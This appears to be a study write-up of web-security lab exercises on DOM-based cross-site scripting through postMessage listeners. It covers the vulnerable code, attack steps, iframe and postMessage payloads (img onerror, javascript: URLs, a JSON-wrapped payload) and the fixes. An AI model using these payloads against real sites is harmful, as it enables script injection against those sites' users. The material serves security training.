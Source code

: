# DOM-based vulnerabilities

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```


## Lab: DOM XSS using web messages and JSON.parse

Analysis : The SCRIPT
  - Find : addEventListener
```
//Testing Payload 
window.postMessage(
    JSON.stringify({
        type: "load-channel",
        url: "javascript:alert(document.domain)"
    }),
    "*"
);
```
